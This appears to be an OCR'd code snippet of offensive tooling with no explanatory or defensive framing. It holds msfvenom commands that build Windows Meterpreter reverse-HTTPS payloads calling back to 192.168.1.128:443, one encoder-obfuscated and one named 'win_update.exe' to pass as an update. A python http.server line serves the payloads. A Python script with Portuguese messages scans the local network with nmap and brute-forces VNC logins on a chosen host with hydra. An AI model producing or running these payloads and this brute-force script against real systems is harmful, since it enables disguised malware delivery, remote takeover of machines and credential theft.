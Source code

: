 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

#!/usr/bin/env python3
import os
import subprocess

def find_targets():
    print("[+] Escaneando a rede para encontrar hosts ativos...")
    scan_result = subprocess.run(['nmap', '-sn', '192.168.1.0/24'], capture_output=True, text=True)
    ips = []
    for line in scan_result.stdout.split('\n'):
        if 'Nmap scan report for' in line:
            ip = line.split()[-1]
            ips.append(ip)
    return ips

def brute_force_vnc(target_ip, wordlist):
    print(f"[+] Iniciando brute force no VNC ({target_ip}:5900)...")
    hydra_command = [
        'hydra', '-s', '5900', '-P', wordlist, '-t', '4', '-V', target_ip, 'vnc'
    ]
    subprocess.run(hydra_command)

if __name__ == "__main__":
    wordlist_path = "./wordlist_atibaia_vnc.txt"
    if not os.path.exists(wordlist_path):
        print("[!] Wordlist não encontrada. Coloque o arquivo na mesma pasta do script com o nome 'wordlist_atibaia_vnc.txt'")
        exit(1)

    targets = find_targets()
    if not targets:
        print("[!] Nenhum alvo encontrado na rede.")
        exit(1)

    print("[+] Hosts encontrados na rede:")
    for i, ip in enumerate(targets):
        print(f"[{i}] {ip}")

    escolha = input("Digite o número do IP alvo: ")
    try:
        alvo_ip = targets[int(escolha)]
    except:
        print("[!] Entrada inválida.")
        exit(1)

    brute_force_vnc(alvo_ip, wordlist_path)
